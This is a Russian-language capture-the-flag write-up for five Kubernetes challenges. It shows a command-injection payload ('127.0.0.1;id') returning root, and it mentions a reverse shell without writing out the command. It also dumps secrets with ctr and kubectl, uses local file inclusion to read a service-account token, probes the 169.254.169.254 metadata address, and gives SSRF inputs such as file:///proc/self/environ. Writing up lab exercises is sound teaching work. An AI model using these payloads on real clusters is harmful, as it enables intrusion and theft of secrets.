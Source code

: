 ## K8S WRITEUP

### 1. Intern Man

На сайте найдем command injection

`127.0.0.1;id` выведет

```
Response Output
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.033 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 17ms rtt min/avg/max/mdev = 0.032/0.032/0.033/0.005 ms uid=0(root) gid=0(root) groups=0(root)
```

Провалимся в машину с помощью command injection + reverse shell

Изучая машину с ctr, можно найти параллельно запущенные контейнеры в namespace k8s.io
Соберем информацию о них и в одном из контейнеров найдем флаг.

```
root@health-check-deployment-754cc8b49f-qk4w8:/tmp/.val/bin# ./ctr --namespace=k8s.io c info 8397cd2b3280229b2a7bad988fc7e2e63300aa609740c555869082f9e3685bb0 | grep deteact
<e2e63300aa609740c555869082f9e3685bb0 | grep deteact         
                "intern_secret=deteact{c424c8ff2c020392c3ca26ab689a36a4}",
```

### 2. Intern Man 2

Провалимся в машину с помощюю reverse shell

Прочитав secrets с помощью kubectl найдем флаг
```
root@test-pod:~# ./kubectl get secrets -o yaml
./kubectl get secrets -o yaml
apiVersion: v1
items:
- apiVersion: v1
  data:
    username: ZGV0ZWFjdHs4OTNiZmEwZWIzNDIwNmQ0NmMxMDg2ZTc1OTY5NWEwOH0=
  kind: Secret
  metadata:
    annotations:
      kubectl.kubernetes.io/last-applied-configuration: |
        {"apiVersion":"v1","kind":"Secret","metadata":{"annotations":{},"name":"secret-basic-auth","namespace":"default"},"stringData":{"username":"deteact{893bfa0eb34206d46c1086e759695a08}"}}
    creationTimestamp: "2023-04-03T10:19:36Z"
    name: secret-basic-auth
    namespace: default
    resourceVersion: "631"
    uid: 71876c7b-1dd5-4e34-b841-603e73df66d8
  type: Opaque
kind: List
metadata:
  resourceVersion: ""
  ```

### 3. PROXY

Найдем на сайте LFI.
Прочитав токен, который хранится по дефолтному пути, найдем флаг

![](assets/proxy.jpg)

`"deteact{ec5eb1a21d6d40d93bca3281623c65ae}\n"`

### 4. METAFIX

Перебрав дефолтные ip адреса для облачных k8s, подойдет сервер от Azure 169.254.169.254
Изучая доступные директории и страницы найдем флаг по адресу latest/secrets/info

![](assets/metafix.jpg)

### 5. New Application

Читая файлы переменного окружения в одном из них найдем адрес, по которому будет доступен флаг

`"endpoint":"file:///proc/self/environ"`

`"endpoint":"http://10.96.154.174:5678`

`"deteact{8ce952138744a6d04b3bd8359dab2a08}\n"`
